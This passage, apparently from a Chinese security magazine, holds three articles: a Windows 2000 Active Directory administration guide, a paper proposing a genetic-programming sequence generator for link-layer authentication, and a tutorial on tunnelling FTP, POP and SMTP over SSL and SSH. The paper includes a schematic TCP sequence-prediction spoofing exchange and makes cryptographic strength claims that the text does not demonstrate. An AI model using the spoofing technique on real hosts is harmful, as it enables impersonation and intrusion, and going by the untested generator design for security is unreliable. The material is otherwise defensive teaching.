

##### 2．在活动目录里添加用户和计算机以实现集中管理

在活动目录里，我们可以将计算机加入到域，实现集中管理，这就方便了我们的工作。可以在 MMC 控制台中选择添加计算机，将要添加的计算机的计算机名和 NetBIOS 名填入到对应的对话框中，如果没有错误，就可以完成对计算机的添加。如图 4 所示。



然后我们给相应的用户添加用户名，同样是在 MMC 控制台中实现用户的添加。如图 5 所示。

然后在客户机上将机器加入到域，这时系统要求我们输入域账号和密码，我们只要将刚才在域控制器上创建的账号和密码输入就可以了。然后登录到本机为域账号指定权限，这样就完成了将计算机加入到域。



图 5

然后我们就可以在活动目录里面发布资源，在 MMC 控制台中指定好资源名和路径就可以了。如图 6 所示。



图 6

这样，我们就可以在域内使用所有的共享资源了。

##### 3．组和组织单元管理

组是 Windows 2000 从 Windows NT 系统继承下来的安全管理形式，它是指活动目录或本地计算机对象，包含用户、联系人、计算机和其他组等。在 Windows 2000 中，组可以用来管理用户和计算机对网络资源的访问，例如活动目录对象及其属性、网络共享、文件、目录、打印机队列，还可以筛选组策略。使用组，主要是为了方便管理访问目的和权限相同的一系列用户和计算机账户。

作为管理员的用户，在赋予用户或计算机账户权限时，如果它们的权限各不相同，必须分别为它们设置；但是，如果它们的权限相同，还要分别进行设置，就多做了许多重复性工作。

有了组的概念之后，就可以将这些具有相同权限的用户或计算机划归到一个组中，使这些用户成为该组的成员，然后通过赋予该组权限来使这些用户或计算机具有相同的权限，这就大大减轻了作为管理员的用户的账户管理工作。

组织单元（Organizational Unit，简称 OU）是域中包含的一类目录对象，它包括域中一些用户、计算机和组、文件与打印机等资源。不过，组织单元不能包含其他域中的对象。由于活动目录服务把域又详细地划分成组织单元，且组织单元中还可以再划分下级组织单元，因此组织单元的分层结构可用来建立域的分层结构模型，进而使用户把网络所需的域的数量减至最小。组织单元具有继承性，子单元能够继承父单元的访问许可权。域管理员可使用组织单元来创建管理模型，该模型可调整为任何尺寸。而且，域管理员可授予用户对域中所有组织单元或单个组织单元的管理权限。

要创建新组，可在控制台目录树中，展开域节点。右击要进行组创建的组织单元或容器，从弹出的快捷菜单中选择“新建”｜“组”命令，打开“创建新对象—（组）”对话框，在“新组名称”文本框中输入要创建的组名；并在“新组的下层名”文本框中输入新组的下层名称（也可使用默认名称）。在“组领域”选项区域中，通过选择单选按钮来选择组的应用领域；在“组类型”选项区域中，通过选择单选按钮来选择新组的类型。单击“确定”按钮即完成组的创建。

要添加组织单元，可在控制台目录树中，展开域节点。右击域节点或者可添加组织单元的文件夹节点，从弹出的快捷菜单中选择“新建”｜“组织单元”命令，打开“创建新对象—（组织单元）”对话框，在“名称”文本框中输入新创建组织单元的名称，然后单击“确定”按钮即完成组织单元的创建。

当用户活动目录中的组和组织单元因太多而影响了对用户和计算机账户的管理时，作为管理员的用户可对自己创建的组和组织单元进行清理。例如，当目录中有长期不使用的组或者是不符合网络安全的组，可将其删除。当域中的某个组织单元中所包含的用户、计算机、联系人和组织单元等已经被删除或因为其他原因而不再发挥作用时，也可将其删除。不过，管理员只能删除自己创建的组和组织单元，而不能删除由系统提供的内置组和组织单元。

#### 五、活动目录的安全设置

因为我们的服务器是域控制器，所以安全是非常重要的，一旦什么人控制了我们的域控制器，我们的损失将是巨大的。因为我们的域控制器没有关闭默认共享，所以我们就必须给域控制器设置一个非常强壮的密码，如果你为了图一时方便设置个空密码或者什么 123 之类的那就惨了。然后我们可以使用组策略、IPSec 等进行安全设置。虽然域控制器的设置和一般的服务器有不少的区别，但是只要你对于一般的服务器的安全设置比较熟悉，那么对于活动目录的安全设置也可以很快上手的！另外，关于安全的文章有很多，这里我就不再赘述了。

#### 六、活动目录数据库的维护

维护活动目录数据库是一个很重要的管理任务，它需要定期帮助恢复丢失和出错的数据，修正活动目录数据库。当域控制器由于硬件或软件方面的原因而不能正常工作时，用户将不能获得对所需资源的访问或登录到网络。

##### 1．备份活动目录

在备份活动目录的时候，备份程序也自动备份所有的系统组件以及活动目录赖以生存的分布式服务。域控制器上的系统状态数据包括：

- 活动目录；
- SYSVOL 公用文件夹，它是一个包含组策略模板和登录命令的公用文件夹；
- 注册表；
- 系统启动文件；
- 类注册数据库。

在备份的时候必须注意：

- 首先必须要有备份的权限。所以，最好是以 Enterprise Admins 组来备份，这样就不会因为权限不足而造成不必要的麻烦。
- 如果服务器不是域控制器，那么活动目录将不被备份。
- 另外，因为备份程序只支持活动目录的本地备份，因此必须在企业的每个域控制器上执行备份，从而实现对活动目录的完全备份。不能在没有第三方工具的情况下在远程计算机上备份活动目录。

##### 2．活动目录的恢复

Windows 2000 提供了活动目录的恢复功能。

在一域控制器上恢复的方法有两种：一是重装域控制器，然后用普通的复制处理将它的备份数据复制到新的域控制器，或者使用备份工具从备份介质中恢复数据而不需要重装域控制器。从备份介质中恢复也有两种方法：非授权方式和授权方式。非授权恢复只能将活动目录恢复到备份时的状态，我们可以重启域控制器，使用 Directory Service Restore Mode 来启动 Windows 2000，然后还原；重启域控制器，在恢复数据后，Windows 2000 将自动执行连续的检查，重新计算数据库中的索引并且使用复制部分的数据来更新活动目录和文件复制服务。而授权恢复只在活动目录中标注特定的对象或整个数据库。我们同样可以在 Directory Service Restore Mode 下进行授权恢复，不过这个时候需要提供恢复对象的标识名和路径，重启域控制器。

由于恢复系统的时候，我们的系统就会像月光宝盒的时光倒流那样回到以前的状态，所以，在备份之后对系统做的任何修改都不会再起作用。为了尽量减少损失，建议经常备份数据。

#### 七、活动目录管理

活动目录给我们提供了很多的方便，但是如果想将它管理好并不是很容易的，我们要做的事很多，要管理用户、组、管理组织单元、管理公布的资源、管理域和信任等，这就要求管理员有较高的素质。首先要养成备份的好习惯，引用老前辈王江民的一句话就是：备份，备份再备份。这样就可以在出现灾难的时候尽可能减少损失。另外就是养成查看日志的习惯，及时解决发现的问题，这也是一个管理员应该具备的最基本的素质。然后就是要虚心请教，如果暂时没有人请教，Windows 2000 的帮助就是你最好的老师，不要为了那几十 M 的空间而给 Windows 2000 减肥，在我们最需要的时候，Windows 2000 的帮助文件也许可以解决我们的燃眉之急，再说现在的硬盘动辄数 10G，我们也没有必要在乎那几十 M 的空间吧。最后就是要养成勤打补丁的习惯，要防止一些别有用心的人对我们的系统进行破坏。世界上没有十全十美的事物，但是我们要在自己力所能及的范围内将事情做到最好。

活动目录的功能很强大，不可能全部介绍，这里只是简单介绍一下它的部分功能，希望对大家有所帮助。

> 本文针对 TCP/IP 协议族的缺陷提出一种简单实用的安全策略，构造了一个基于遗传程序设计（GP）的安全认证算法。该算法利用 GP 的自组织、自适应、自学习等特性，为“基于链路层的安全认证模型”生成伪随机序列，为建立一条基于链路层的“安全信道”提供了保证。

### 基于链路层的伪随机序列的安全认证算法

文／司马云瑞 赵仕奇 王曙光

#### 1．引言

目前广泛使用的 TCP/IP 协议族起源于 20 世纪 60 年代末美国国防部资助的一个研究项目，到 20 世纪 90 年代已发展成为计算机之间最常用的组网协议。它成为“全球互联网”的基础，应用于世界各地。但是这样的协议族仍然有一些致命的安全漏洞。[1] 引起这些漏洞的主要原因之一是由于数据包采用可预知的序列号进行认证。Morris 首先公布了这个协议缺陷，他利用 TCP 序列号的可预测性构造了一个 TCP 数据包并发给服务器，这使他可以伪装一台被信任的主机。

正常的 TCP 连接需 3 次握手。客户端选择并传输一个初始化的序列号 ISNc，然后服务器确认并发送它自己的序列号 ISNs，最后客户端确认。通信过程如下：

```text
C -> S: SYN(ISNc)
S -> C: SYN(ISNs), ACK(ISNc)
C -> S: ACK(ISNs)
```

假设一个入侵者又有一种方法能够预测 ISNs，在这种情况下，他可发送以下数据包伪装被信任的主机 T：

```text
X -> S: SYN(ISNx), SRC=T
S -> T: SYN(ISNs), ACK(ISNx)
X -> S: ACK(ISNs), SRC=T
X -> S: ACK(ISNs), SRC=T, nasty_data
```

那么如何预测随机的 ISN？在 Berkeley 系统，最初的序列号变量每秒增加一个常数，且每次初始化一个连接以半数增加。这样，只要观测到一个合法的 ISNs，就有可能计算出下一个 ISNs。

本文针对 TCP/IP 协议族认证缺陷提出一个基于链路层的不可预测序列的安全认证算法。

#### 2．基于链路层的安全认证

通常的网络协议用 IP 或 MAC 地址作为识别主机的惟一标志，然而这些信息在以太网上易被截获修改。为保证会话双方能够安全地交换信息，我们希望能用一个不可预测的序列作为双方会话的惟一标志，建立一条“点对点”的通信线路。[3] 文提出了一种具有较高安全性的链路层认证方法，过程如下：首先进行主机定位，然后协商随机序列算法，最后建立“安全信道”。所谓“安全信道”是指会话双方能够同时且不受干扰（攻击者不能改动信息）地交换信息并保证敏感信息加密传输的虚拟信道（图 1）。客户机与服务器建立连接时，并不直接传递认证信息或其他请求，首先通过上图“认证信息发生器”、“认证信息回复器”与“验证器”进行计算机间的认证，确保会话双方不被替代、欺骗。然后，“认证钥匙组件”与“认证锁组件”协商对称加密算法和密钥，“序列生成器”协商伪随机序列算法，最后建立信道。此时，双方信息传递正式开始。[^2]



#### 3．常用伪随机序列算法及缺陷

“不可预测”序列的生成是建立“安全信道”至关重要的一步。目前常用的伪随机序列发生器有线性同余发生器、线性反馈移位寄存器（LFSR）等。线性同余发生器是【Xn=(aXn-1+b)modn】形式的伪随机序列发生器（其中 Xn 是序列的第 n 个数，Xn-1 是序列的第 n-1 个数。密钥，也即种子是初始值 X0）。线性发生器的优点是：速度快，每位只需很少的操作。但它是可预测的，所以不能直接应用于密码学。另一个常用发生器的是 LFSR。LFSR 由两部分组成：移位寄存器和反馈函数。移位寄存器是一个位序列，每次需生成一位时，移位寄存器中所有位右移一位。新的最左端的位由反馈函数计算得到。理论上，n 位 LFSR 在重复之前能够产生 2n-1 位长的伪随机序列。LFSR 具有较高的安全性，被广泛地应用在密码学和编码理论中，但 LFSR 的软件实现非常慢[^3]，不能满足网络数据包快速传输的需要。此外，[^3] 文中还提出了多随机序列算法的模型。每次建立“安全信道”时选择不同的算法，而且可以经常更新算法。但是这种模型仅仅增强了算法的复杂度，攻击者只要搜集到足够的数据，仍有可能猜中所选用的算法。

#### 4．一个自适应的伪随机序列算法

采用不可预知的序列是安全策略中关键的一步，它是防止序列号欺骗攻击和改善其他认证缺陷的基础。对于本文讨论的问题，“不可预知”的序列强调的是即使给出所有以前产生的位序列的全部知识，也不可能在规定的时间内通过计算来预测下一个随机数是什么。[^5] 也就是说，我们需要一种具有下特点的随机序列生成算法：

- 序列产生速度极快（采用较为简单的算法）。
- 一定时间内不可预测（具有较高的强度）。

通常，对单个算法来讲，这两个目标是互相矛盾的，但我们可以采用具有多个由简单子算法构成的算法集模型。每次建立“安全信道”时选择不同的子算法，并且经常更新算法集。如果攻击者无法猜测出即将使用的是哪一个子算法，那么这个模型是安全的。对固定的算法集来说，即使子算法数目很多，攻击者在获得足够数据的情况下仍有可能猜中将要选用的子算法。但是，如果算法集能随时间变化，即攻击者无法预先搜集情报，那么也就有生成“不可预知”序列的可能。接下来我们结合遗传程序设计（GP）提出一种自适应的随机序列算法，即算法中的算法集能随着系统状态的变化而变化。

该算法可抽象为已知有限个且不断变化的输入对 (xi, yi) 组成的集合 A，求系统 S 的行为 f（或求系统 S 的结构）（图 2）。



设 {(xi, yi)｜xi∈X，yi∈Y，i∈I} 是给定的输入输出对，这里 X，Y 都是实有限维空间的子集，I 是指标集；又若 F 是 X 上所有连续函数全体的一个子集，G 是定义在乘积空间 I×Y 上的一个距离，则求行为 f 的问题可以归结为确定一个函数 f*∈F，使得对任意 f∈F 有

G({f*(xi)}, {yi}) ≤ G({f(xi)}, {yi})　　(*)

由 * 式可知，给定集合 A 就必可得到一个函数 f，使得对给定 ε>0 有

G({f(xi)}, {yi}) ≤ ε

而 f 就正是我们所要求的子算法。为使 f 具有多样性，只需不断地改变集合 A。更进一步讲，输入对（x，y）最好是随机的。这样，由随机输入对产生的算法 f 也必定有随机成分。产生随机数的最好办法就是找出许多似乎是随机的事件，然后从中提取随机性。单向散列函数即可用于此，它的速度很快，能将找来的任何东西进行散列运算。为选取随机事件，可尝试：每一个击键的拷贝，鼠标位置，刚接收到的数据包，CPU 负载等等。[^5]

我们采用 GP 算法模型构造系统 S，GP 采用简单的编码技术来表示复杂的结构，并通过对一组编码进行简单的遗传操作和优胜劣汰的自然选择来指导学习和确定搜索的方向。演化计算的智能性正是我们所需要的，它包括自组织、自适应和自学习性等。演化算法不需要形式化定义问题的解，基于这样的系统行为 f 是难以预测的。以下，我们对 GP 算法的关键性问题逐一分析。[^4]

##### 4.1 编码表示

GP 对程序的编码就是所有可能的 LISP 语言的 S-表达式的组成。这些表达式是一些分层结构，它由问题的函数集和端点集递归地复合而成。函数集可定义为：算术运算（＋、－、＊、／等）、数学函数（sin、cos、log 等）、布尔运算（AND、OR、NOT 等）、移位运算（<<、>>）等。端点集通常由变量和常量组成。这里变量是指输入 x。常量可以是整型、实型或布尔型常数。某些时候，端点可以是不含显式参数的函数。为了合法地进行遗传操作，我们要求函数集和端点集要满足封闭性，即函数集中的任一函数的返回值及数据类型以及端点集中任一端点的可能取值及数据类型，都可作为函数集中函数的参数。在这里，我们使用二叉树以避免检查串表示的子串的合法性，而遗传算子也是针对二叉树来设计的。

##### 4.2 遗传算子设计

由于我们采用结构式编码，从而其遗传算子的设计将在很大程度上与传统的方法不同。因为遗传算子的内在相似性，所以我们使用繁殖、杂交和变异 3 种算子。

- 繁殖算子：首先使用某种选择策略对各个体分配选择概率，然后据此选择概率及繁殖概率 pr，来使用转盘算法选择繁殖的个体。
- 杂交算子：杂交算子先在两个父体中独立地选择二叉树的某个结点作为杂交点，然后交换父体中以杂交点为根结点的相应子树，得到两个子后代。为了避免模型过于复杂，我们引入一个参数称为最大深度 D，以使得模型的二叉树表示所具有的深度都不大于 D。从而，杂交点的选择要使得两个后代模型对应的树表示的深度也不超过 D。
- 变异算子：变异也是先在父体中随机地选择一个结点（称为变异点），若变异点是内部结点（即非叶结点），则等概率地执行下述 3 种遗传操作之一：
  1. 删除以变异点为根结点的子树，并在变异点插入一个随机生成的子树；
  2. 变换变异子树的左子树和右子树；
  3. 化简变异子树，即以通过计算获得的值替代某些部分。

##### 4.3 个体适应值评估

适应值是用来区分个体好坏的标准，是算法演化过程的驱动力，是进行自然选择的唯一依据。改变种群内部结构的操作都通过适应值加以控制。系统 S 的适应函数 Fc 可简单定义为：

Fc = Σ G(|f(xi)，{yi})，i∈I

适应函数表示集合 A 在乘积空间 ΠY 上的距离和，适应值越低越好。

除了满足上述因素之外，适应函数也需考虑其他因素。它与编码规则的结点数和树的深度相关联。为了使算法尽可能简单，结点数（node）越少越好；当结点数一定时，树深（depth）也应越小越好。于是我们定义 Fs = node + ? * depth，? 为权值。当然 Fs 也是越小越好。整体适应函数归纳如下：

F = Fc/D1 + Fs/D2，D1，D2 为权值

## 5. 结束语

本文针对 TCP/IP 协议族缺陷提出一种简单的安全策略，构造了一个基于遗传程序设计（GP）的安全认证算法。该算法利用 GP 的自组织、自适应、自学习等特性为“基于链路层的安全认证模型”生成伪随机算子，为建立一条基于链路层的“安全信道”提供了保证。

#### 参考文献

- [1] S.M. Bellovin. Security Problems in the TCP/IP Protocol Suite. AT&T Bell Laboratories.
- [2] 梁意文，司马云瑞。Web 用户认证信息的安全性策略。计算机工程与应用。
- [3] 司马云瑞，梁意文，王曙光。基于链路层的安全认证策略。
- [4] 潘正君，康立山，陈毓屏。《演化计算》。清华大学出版社／广西科学技术出版社。
- [5] Bruce Schneier. Applied Cryptography (protocols, algorithms, and source code in C).
- [6] W. Richard Stevens. 《TCP/IP Illustrated》。

### 给明文协议加把锁

文／包子

大家都知道，FTP、Telnet、POP、SMTP 等都是明文协议，也就是说，它们在传输数据的时候，数据都是没有被加密的，这样一些敏感数据就会很容易被 Sniffer 截获。虽然现在已经普遍使用交换机来代替 HUB 了，但是随着新一代的 ARP Sniffer 的出现，在交换环境下窃取数据也是很简单的事情，至于 ARP Sniffer 的原理这里就不赘述了。而且，这些服务程序的安全验证方式也是有其弱点的，就是很容易受到“中间人”（man-in-the-middle）这种方式的攻击。所谓“中间人”的攻击方式，就是“中间人”冒充真正的服务器接收你传给服务器的数据，然后再冒充你把数据传给真正的服务器。服务器和你之间的数据传送被“中间人”一转手做了手脚之后，就会出现很严重的问题。

现在的目的就是在服务端和客户端做些手脚，让敌人拿不到明文的数据，我们下面会使用到以下几个软件：FlashFXP、SERV-U、VANDYKE VShell、VANDYKE Entunnel。在着手之前，先解释两个概念。

### 1. SSL

Secure Socket Layer（SSL）协议是由 Netscape Communication 公司设计开发，主要用于提高应用程序之间数据的安全性。该安全协议主要用来提供对用户和服务器的认证；对传送的数据进行加密和隐藏；确保数据在传送中不被改变，即数据的完整性。由于 SSL 技术已建立到所有主要的浏览器和 Web 服务器程序中，因此，仅需安装数字证书或服务器证书就可以激活服务器功能了。

它的功能如下：

- **机密性**  
  这是通过对数据进行加密实现的，在进行 SSL 握手时，SSL 选择一种对称算法对数据进行加密，然后才在网络上传输数据。SSL 使用的加密算法有好多种，如果某种算法被新的网络攻击方法识破，它只要选择另外的算法就可以了。

- **消息的完整性**  
  SSL 使用一种很健壮的信息验证码，例如 SHA-1，验证码被放在数据包的后部，并且和数据一块被加密。这样，如果数据被修改，其散列值就无法和原来的验证码匹配，从而能够检测出数据是否被修改。MAC 同时也用于保护 SSL 连接免受干扰。  
  保护数据免受重放攻击（replay-attack）。SSL 使用序列号来保护通讯方免受报文重放攻击。这个序列号被加密后作为数据包的负载，在整个 SSL 握手中，都有一个惟一的随机数来标记这个 SSL 握手，这样重放便无机可乘。  
  免受 recorder 攻击（reorder-attack）。上面所说的序列号也可以防止攻击者将记录数据包并以不同的次序发送。

- **端点验证**  
  使用 X509（当前版本是 3）证书，SSL 支持客户和服务器的验证。

### 2. SSH

SSH 的英文全称是 Secure Shell。使用 SSH，你可以把所有传输的数据进行加密，这样，“中间人”这种攻击方式就比较难实现了，而且也能够防止 DNS 和 IP 欺骗。还有一个额外的好处就是传输的数据是经过压缩的，所以可以加快传输的速度。

现在我们首先解决 FTP 的问题。这里，我们需要配置让 SERV-U 支持 SSL，在对它做完一些基本的配置之后，运行 ServUadmin，找到你需要加密的那个域，在“Security”选项那选择“Allow SSL/TLS and regular sessions”，然后“Apply”。这样 FTP 服务器对 SSL 的支持就启用了。

下来就配置 FlashFXP 让它支持 SSL，很简单，在“站点管理器”或者“快速连接”处选“SSL”，然后选“Auth SSL”，现在就可以连接支持 SSL 的服务器，接受并保存来自服务器的证书，这样你和服务器之间的数据都会被加密，不再怕 Sniffer 了。

最后，关于 FTP 的 SSL 有点要补充的是，如果你在 SERV-U 配置的时候选择的是“Allow SSL/TLS and regular sessions”（支持 SSL 和普通的 FTP 会话），那么在 FlashFXP 的 SSL 选项中就要选择“Auth SSL”；如果你选择的是“Allow only SSL/TLS sessions”（只支持 SSL 会话）的话，那么在 FlashFXP 的 SSL 选项中就要选择“implicit SSL”（隐含 SSL），否则在连接的时候会出问题的。

下面我们开始为 POP、SMTP、Telnet 等协议上锁。在上面我们已经介绍了 SSH，它除了可以用来替代 Telnet 和 FTP 之外，更加重要的功能就是 tunnel（隧道）功能，它可以把明文的数据通过隧道的方法转发到目标地址去。下面，我们就使用 VANDYKE 的 VShell 和 Entunnel 来方便地实现这个功能。

首先，我们先用 VShell 在本地做一个 SSH 服务器，安装之后，如果没有特殊的要求，基本上不用设置就可以使用了，方便吧 :)

重新启动之后，telnet 127.0.0.1 22，你会发现“SSH-2.0-VShell_2.03 VShell”这个 banner，如果没有这个信息，请查看 VShell 的帮助。

接着，我们配置 Entunnel。安装之后，在程序的主窗口先创建一个新的 Session（图 1 左起第三个键）。

先为 Connection 取个名字，并写上 hostname:127.0.0.1，username:administrator（图 2）。然后在 Port Forwarding 那“add”一个规则并给它命名，我们就写“SMTP”吧，接着分别在 Local 写上 IP:127.0.0.1，和 Remote 那写上 SMTP 服务器地址，并在两个 port 栏写上“25”，这样一个 SMTP 转发规则就设置好了，如图 3 所示。接着，再添加一个 POP 转发规则，配置和 SMTP 的差不多，把端口改成 110 就 OK 了。

最后，点 Connect 输入你的 administrator 密码并保存，如果密码没错的话，我们可以看到它的“Status”是“connected”的，并且任务栏的图标变成了绿色。如果你的结果不一样，请检查密码是否错误，并且在“Details”检查出错信息，或者查看 Entunnel 的帮助文档。

